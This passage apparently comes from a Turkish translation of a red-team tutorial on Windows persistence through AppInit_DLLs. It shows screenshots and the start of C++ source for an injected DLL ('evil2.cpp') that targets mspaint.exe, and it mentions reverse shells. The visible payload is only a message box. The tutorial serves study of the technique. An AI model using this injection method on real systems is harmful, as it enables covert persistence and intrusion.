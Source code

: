 sadece control edelim.   

![pers](./images/55/2022-05-16_05-42.png){width="80%"}    

Ardından, gösterim amacıyla `Paint` veya `Notepad` gibi bir uygulama açın:    

![pers](./images/55/2022-05-16_06-59.png){width="80%"}    

![pers](./images/55/2022-05-16_07-00_1.png){width="80%"}    

Bu nedenle, her şey mükemmel şekilde çalıştı :)     

### İkinci örnek

Bununla birlikte, bu yöntemin uygulanması hedef sistemde kararlılık ve performans sorunlarına neden olabilir:     

![pers](./images/55/2022-05-16_10-44.png){width="80%"}    

Ayrıca, ilk DLL'in mantığının oldukça garip olduğunu düşünüyorum, çünkü birden fazla mesaj kutusu açılıyor. Gerçek hayatta red team senaryolarında hareket ettiğimizde bu oldukça gürültülü oluyor, özellikle birden fazla ters bağlantı (reverse shell) oluşturulduğunda.    

Bu yüzden, `evil.dll` mantığını biraz güncellemeyi denedim:   

```cpp
/*
evil2.cpp
inject via Appinit_DLLs - only for `mspaint.exe`
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
  	  return Begin;

    str = Begin + 1;
  }
  return NULL;
}

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    GetModuleFileName(NULL, path, MAX_PATH);
```